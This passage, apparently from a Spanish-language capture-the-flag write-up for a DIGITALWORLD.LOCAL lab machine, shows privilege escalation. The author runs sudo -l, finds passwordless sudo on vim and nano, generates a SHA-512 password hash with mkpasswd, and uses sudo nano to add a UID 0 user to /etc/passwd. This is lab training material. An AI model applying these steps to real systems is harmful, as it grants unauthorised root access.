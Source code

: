 ### 6.2. Elevar privilegios con SUDO

- Ingresamos con el usuario PATRICK y verificamos los permisos de ejecución con SUDO.

```
intern@development:~$ su patrick
Password: 
patrick@development:/home/intern$ sudo -l
Matching Defaults entries for patrick on development:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User patrick may run the following commands on development:
    (ALL) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /bin/nano
```
<img src="https://github.com/El-Palomo/DIGITALWORLD.LOCAL-DEVELOPMENT/blob/main/devi14.jpg" width=80% />


- Ya que podemos ejecutar NANO y VIM con privilegios de ROOT. Lo más facil es editar el archivo PASSWD y lograr acceso. Otro clásico para elevar privilegios.

```
// En KALI Linux
root@kali:~/DEVI# mkpasswd  -m sha-512 -S saltsalt -s
Password: 12345678
$6$saltsalt$9vIXh5xFJESF2.DxxXyWlpOT.0t06Y2Pk11StIw2L8oaOTl42ZfuhPPi5h2PPjbLI.FnnhTBEMMcL05LS2ZmY.


// En el CTF
patrick@development:/home/intern$ sudo /bin/nano /etc/passwd
ossecm:x:1004:1007::/var/ossec:/bin/false
ossecr:x:1005:1007::/var/ossec:/bin/false
oident:x:114:117::/:/usr/sbin/nologin
omar:$6$saltsalt$9vIXh5xFJESF2.DxxXyWlpOT.0t06Y2Pk11StIw2L8oaOTl42ZfuhPPi5h2PPjbLI.FnnhTBEMMcL05LS2ZmY.:0:0::/root/:/bin/bash
```
